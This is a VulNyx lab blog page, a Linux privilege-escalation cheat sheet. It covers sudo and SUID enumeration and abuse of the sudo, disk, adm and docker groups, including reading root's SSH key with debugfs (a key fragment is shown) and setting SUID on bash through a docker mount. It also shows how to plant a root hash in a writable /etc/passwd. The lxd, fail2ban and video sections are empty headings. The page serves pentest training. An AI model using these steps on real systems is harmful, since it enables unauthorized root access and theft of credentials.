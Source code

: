 ```yaml
---
title: 🐧 Privilege Escalation (Linux)
date: 0003-01-01
layout: post
---
```


### Enumeration

```ruby
# sudo
sudo -l
# If when performing the previous step it tells you that sudo is not found
find / -name sudo 2>/dev/null

# suid
find / -perm -4000 2>/dev/null
find / -perm -4000 -ls 2>/dev/null
find / -perm -4000 -exec ls -l {} \; 2>/dev/null
# capabilities^

# users
grep "sh$" /etc/passwd

# writable
find / -writable 2>/dev/null
find / -writable 2>/dev/null | grep -viE "proc|sys|dev"
find / -writable -user low 2>/dev/null
```

If I identify a **binary** with `suid` or `sudo` **permissions** [GTFOBins](https://gtfobins.github.io) is the way.

- https://gtfobins.github.io

---

### Cron (Task)

```ruby
cat /etc/crontab
```

---

### Groups

#### sudo

When a user is part of the `sudo` **group**, he can run any command as the `root` user.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),27(sudo)

# Abuse Group
low@vulnyx:~$ sudo su
root@vulnyx:~# id
uid=0(root) gid=0(root) groups=0(root)
```

#### disk

When a user is part of a `disk` **group**, he or she is granted direct access to the system **disks** and **partitions**.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),6(disk)

# Abuse Group
low@vulnyx:~$ df -h
Filesystem      Size  Used Avail Use% Mounted on
udev            480M     0  480M   0% /dev
tmpfs            99M  3.2M   96M   4% /run
/dev/sda1        11G  2.2G  8.1G  21% /
tmpfs           494M     0  494M   0% /dev/shm

low@vulnyx:~$ /usr/sbin/debugfs /dev/sda1
debugfs 1.44.5 (15-Dec-2018)
debugfs:  ls /root
debugfs:  ls /root/.ssh/
debugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAstkGmc1W+epM0w13VQrLO/wMNWwxFltotpa9elYJVXSlBc+PgF6I
```

#### adm

When a user is part of the `adm` **group**, he can **read log files** on the system.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),4(adm)

# Abuse Group
low@vulnyx:~$ grep --color -Eri "pass|password|secret|db" /var/log 2>/dev/null
```

#### docker

When a user is part of the `docker` **group**, they have the ability to **manage containers**.

```ruby
# Check Group
low@vulnyx:~$ id
uid=1000(low) gid=1000(low) groups=1000(low),109(docker)

# Abuse Group
low@vulnyx:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# chmod 4755 /bin/bash
# exit
low@vulnyx:~$ /bin/bash -pi
```

#### lxd

#### fail2ban

#### video

---

### /etc/passwd (Writable)

If a low-privileged user has **write permissions** to the `/etc/passwd` file, an attacker can remove the `x` (on the **root** user line) and add a **hash**, this will cause the file that validates credentials to change from `/etc/shadow` to `/etc/passwd`.

```ruby
# Check Permissions
low@vulnyx:~$ ls -l /etc/passwd
-rw----rw- 1 root root 1395 abr 21 20:16 /etc/passwd

# Create Hash
root@kali:~# openssl passwd -1 "P@ssword123"
$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0

# Add Hash
# before
low@vulnyx:~$ cat /etc/passwd |grep root
root:x:0:0:root:/root:/bin/bash
# after
low@vulnyx:~$ cat /etc/passwd |grep root
root:$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0:0:0:root:/root:/bin/bash

# Authenticate
low@vulnyx:~$ su -
Password:
root@vulnyx:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

---

#### Disclaimer

> ##### WARNING
> All techniques presented in this blog are for educational and ethical purposes.  
> The [VulNyx](https://vulnyx.com) team is not responsible for any misuse or damage caused to third party systems or infrastructure.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
